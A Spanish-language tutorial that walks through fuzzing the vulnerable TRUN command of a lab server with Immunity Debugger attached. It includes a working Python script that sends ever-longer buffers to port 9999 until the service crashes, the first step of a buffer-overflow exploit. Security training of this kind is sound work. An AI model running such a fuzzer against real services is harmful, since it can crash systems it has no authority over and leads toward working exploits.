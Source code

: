 <hr style="border: none; height: 10px; background-color: #003b00;" />

El **fuzzing** es muy similar al proceso de **spiking** en el sentido de que se envían muchos caracteres a un comando específico con la intención de hacer que falle. La diferencia es que mientras que en el spiking se prueban múltiples comandos para encontrar cuál es vulnerable, en el fuzzing ya se sabe qué comando es vulnerable, en este caso el comando **TRUN**, y se procede a atacar ese comando de manera específica.

### Preparación

Antes de empezar con el fuzzing, se deben seguir los siguientes pasos de preparación:

1. Ejecutar **Immunity Debugger** con privilegios de administrador.
2. Ejecutar **Voland Server** también como administrador.

Si en algún momento **Voland Server** se bloquea o se cierra debido al fuzzing, es recomendable reiniciar tanto **Immunity Debugger** como **Voland Server**, y volver a adjuntar el proceso en **Immunity Debugger**.

### Desarrollo del Fuzzing

Para realizar el fuzzing, se ha construido un **script en Python**. El objetivo de este script es enviar grandes cantidades de datos al comando **TRUN** para identificar en qué punto se produce un fallo en el servidor.

### Explicación del Script

El script en Python es el siguiente:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100
ip_address = '10.0.2.15'

while True:
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip_address,9999))
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crash en %s bytes " % str(len(buffer)) )
        sys.exit()
```

Este script sigue el siguiente proceso:

1. Se importan los módulos necesarios: **sys**, **socket** (para la conexión) y **sleep** (para añadir pausas entre envíos).
2. Se declara una variable llamada **buffer**, que inicialmente contiene 100 letras "**A**".
3. El script entra en un bucle **while True**, en el que intenta:
- Conectar al servidor vulnerado en la IP y puerto adecuados (9999 para **Voland Server**).
- Enviar el comando vulnerable **TRUN** seguido de un buffer de caracteres "**A**".
- Cerrar la conexión y dormir por un segundo antes de aumentar el tamaño del buffer en 100 caracteres.
- Continuar este proceso hasta que el servidor falle, lo que indicará que se ha producido un desbordamiento de búfer.
4. Cuando el servidor falla, el script imprime el tamaño del buffer que causó el fallo y se cierra.
